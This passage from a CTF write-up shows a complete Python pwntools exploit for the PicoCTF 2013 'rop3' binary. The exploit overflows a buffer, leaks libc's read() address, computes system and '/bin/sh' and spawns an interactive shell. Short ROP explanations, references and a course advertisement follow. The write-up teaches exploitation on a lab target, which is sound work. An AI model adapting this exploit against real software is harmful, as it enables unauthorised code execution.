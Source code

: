 As you can see, the exploit works as expected:    

![exploit](images/2022-07-25_07-34.png)    

The full source code:    

```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print "[+] read is at: " + hex(read_addr)
system_addr = read_addr - 0x9ad60
binsh_addr = read_addr + 0x85f0b
exit_addr = read_addr - 0xa7130
print "[+] system is at: " + hex(system_addr)
print "[+] /bin/sh is at: " + hex(binsh_addr)
shell = "A"*140 + pack(system_addr) + pack(exit_addr) + pack(binsh_addr)
exploit.sendline(shell)
exploit.interactive()
```

This is an illustration of how ROP operates. We utilized program-provided code fragments in order to construct a staged exploit.   

We were able to simply return to the vulnerable function without having to search for and insert individual gadgets into the stack.    


## References

[Pico CTF 2013 ROP 3](https://github.com/ctfs/write-ups-2013/tree/master/pico-ctf-2013/rop-3)    

[read() man page](https://man7.org/linux/man-pages/man2/read.2.html)     

[write() man page](https://man7.org/linux/man-pages/man2/write.2.html):     

[The Stack Frame](http://www.cs.uwm.edu/classes/cs315/Bacon/Lecture/HTML/ch10s07.html)     

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html)
::: In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**